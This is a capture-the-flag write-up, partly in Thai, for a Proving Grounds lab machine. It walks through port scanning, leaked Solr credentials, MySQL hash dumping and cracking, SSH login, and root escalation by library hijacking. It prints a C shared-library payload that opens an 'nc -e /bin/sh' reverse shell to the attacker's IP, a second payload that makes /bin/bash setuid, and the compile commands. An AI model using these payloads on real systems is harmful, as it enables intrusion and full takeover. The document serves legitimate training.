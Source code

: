 
# Recon 
## TCP Scan
```bash
sudo ../Tools/scan.sh  192.168.175.205
[sudo] password for kali: 
[*] Running rustscan...
[*] Running nmap on ports: 22,3306,8983
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-25 09:35 +07
Nmap scan report for 192.168.175.205
Host is up (0.036s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:5a:a9:66:65:3e:d0:b8:9d:a5:16:8c:e8:16:37:e2 (ECDSA)
|_  256 9b:2d:1d:f8:13:74:ce:96:82:4e:19:35:f9:7e:1b:68 (ED25519)
3306/tcp open  mysql   MySQL 8.0.41-0ubuntu0.24.04.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_8.0.41_Auto_Generated_Server_Certificate
| Not valid before: 2025-02-17T15:27:47
|_Not valid after:  2035-02-15T15:27:47
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.41-0ubuntu0.24.04.1
|   Thread ID: 12
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, SupportsTransactions, ODBCClient, Speaks41ProtocolOld, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, SupportsCompression, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, Speaks41ProtocolNew, SwitchToSSLAfterHandshake, InteractiveClient, LongColumnFlag, LongPassword, FoundRows, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: ;\x19iKIZ%gCWf{Cm^xS\x0FV\x1A
|_  Auth Plugin Name: caching_sha2_password
8983/tcp open  http    Jetty
| http-title: Solr Admin
|_Requested resource was /solr/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.54 seconds

```

## TCP 8983

![[Challenge/ProvingGround/dev_working/IMG/001.png]]

จากการตรวจสอบใน Exploit จะเห็นว่าไม่มี Exploit ใดสามารถใช้งานได้ 

![[Challenge/ProvingGround/dev_working/IMG/002.png]]

จากการตรวจสอบทำให้พบ Credential Leak  `slv01:nBk3c4gj0J`
# Enum MySQL 

```bash
mysql -u slv01 -p  -h 192.168.138.205 -P 3306 --skip-ssl-verify-server-cert
```
![[Challenge/ProvingGround/dev_working/IMG/003.png]]

```sql
MySQL [(none)]> select version();
+-------------------------+
| version()               |
+-------------------------+
| 8.0.41-0ubuntu0.24.04.1 |
+-------------------------+
1 row in set (0.037 sec)

MySQL [(none)]>  select system_user();
+----------------------+
| system_user()        |
+----------------------+
| slv01@192.168.45.161 |
+----------------------+
1 row in set (0.043 sec)

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| dev01              |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.052 sec)

MySQL [(none)]> show tables;
ERROR 1046 (3D000): No database selected
MySQL [(none)]> use dev01
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [dev01]> show tables;
+-----------------+
| Tables_in_dev01 |
+-----------------+
| Users           |
+-----------------+
1 row in set (0.045 sec)

MySQL [dev01]> select * from Users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | root     | B3B72B283F43DC8302F73E94245F4D4D |
|  2 | bob      | 22958710C569D1FA791F43ABA4D4E9EA |
+----+----------+----------------------------------+
2 rows in set (1.912 sec)

MySQL [dev01]> 

```
# Crack md5 hash


![[Challenge/ProvingGround/dev_working/IMG/004.png]]

จากข้อมูลจะได้ข้อมูลของ bob:sunflower 

# Shell as bob

```bash
ssh bob@192.168.138.205  
```

# Host check 

![[Challenge/ProvingGround/dev_working/IMG/006.png]]

![[Challenge/ProvingGround/dev_working/IMG/005.png]]


```pass
B4cup32M4n4age
```

จากข้อมูลข้างต้นจะพบว่ารหัสผ่านและมีการเรียกใช้ lib_backup.so ซึ่งหมายความว่าเราอาจจะสามารถ Injecy ไฟล์ .so ได้ 

# .so file reverse shell

Reverse shell .so file
```c
#include <stdio.h>  
#include <stdlib.h>  
#include <sys/types.h>  
#include <unistd.h>  
  
static void revShell() __attribute__((constructor));  
  
void revShell() {  
setuid(0);  
setgid(0);  
printf("Reverse Shell via library hijacking. \n");  
const char *ncshell = "nc -e /bin/sh 192.168.45.161 443 &";  
system(ncshell);  
}
```

ข้างต้นไม่สามารถทำ Reverse Shell ได้ ให้ทดสอบเปลี่ยนสิทธิของ /bin/bash เป็น 777 

```c
#include <stdio.h>  
#include <stdlib.h>  
#include <sys/types.h>  
#include <unistd.h>  
  
static void advance_backup_custom_implementation() __attribute__((constructor));  
  
void advance_backup_custom_implementation() {  
setuid(0);  
setgid(0);  
printf("Reverse Shell via library hijacking... \n");  
system("chmod 4777 /bin/bash");  
}
```

```bash
bob@dev01:/tmp$ cat lib_backup.c 
#include <stdio.h>  
#include <stdlib.h>  
#include <sys/types.h>  
#include <unistd.h>  
  
static void advance_backup_custom_implementation() __attribute__((constructor));  
  
void advance_backup_custom_implementation() {  
 setuid(0);  
 setgid(0);  
 printf("Reverse Shell via library hijacking... \n");  
 system("chmod 4777 /bin/bash");  
}
bob@dev01:/tmp$ 


# Complire 
bob@dev01:/tmp$ gcc -Wall -fPIC -c lib_backup.c -o lib_backup.o
bob@dev01:/tmp$ gcc -shared lib_backup.o -o lib_backup.so   
```

# Shell as root

![[Challenge/ProvingGround/dev_working/IMG/007.png]]

# PWN